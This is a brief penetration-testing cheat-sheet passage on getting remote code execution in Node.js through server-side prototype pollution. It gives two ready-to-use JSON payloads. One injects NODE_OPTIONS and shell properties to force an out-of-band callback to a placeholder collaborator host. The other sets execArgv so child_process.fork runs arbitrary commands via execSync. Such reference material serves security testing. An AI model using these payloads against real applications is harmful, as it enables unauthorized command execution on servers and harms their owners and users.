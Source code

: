 ## Remote code execution via server-side prototype pollution
There are potential command execution sinks in Node, in the `child_process` module
As these requests occur asynchronously, the best way to test is to trigger an out of band interaction
### NODE_OPTIONS environment variable and shell property
In the example payload shown below the \"\" are very helpful to reduce false positives
```json
"__proto__": {
    "argv0":"node",
    "shell":"node",
    "NODE_OPTIONS":"--inspect=YOUR-COLLABORATOR-ID\"\".oastify\"\".com"
}
```
### Remote code execution via child_process.fork()
```json
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('command')"
    ]
}
```
